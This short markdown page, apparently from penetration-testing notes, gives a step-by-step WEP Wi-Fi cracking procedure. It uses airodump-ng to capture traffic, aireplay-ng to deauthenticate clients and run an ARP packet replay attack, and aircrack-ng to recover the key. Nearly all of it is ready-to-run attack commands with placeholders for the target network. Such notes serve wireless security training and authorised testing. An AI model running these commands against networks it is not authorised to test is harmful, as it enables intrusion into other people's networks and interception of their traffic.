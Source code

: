 # via a client

#### Capture + output as wep-01.pcap

{% code overflow="wrap" %}
```
# -c channel -w output filename = recon-0#
sudo airodump-ng -c # --essid AP_NAME --bssid XX:XX:XX:XX:XX:XX -w wep --output-format pcap wlan0mon
```
{% endcode %}

#### Attack

Deauth the AP

```
aireplay-ng -0 1 -e <ESSID> -a <AP MAC> -w <capture> <interface>
```

Launch the interactive packet replay attack looking for ARP packets coming from the AP:

{% code overflow="wrap" %}
```

aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
```
{% endcode %}

Once enough IVs have been captured, crack the WEP key:

```
aircrack-ng -z <capture>
```
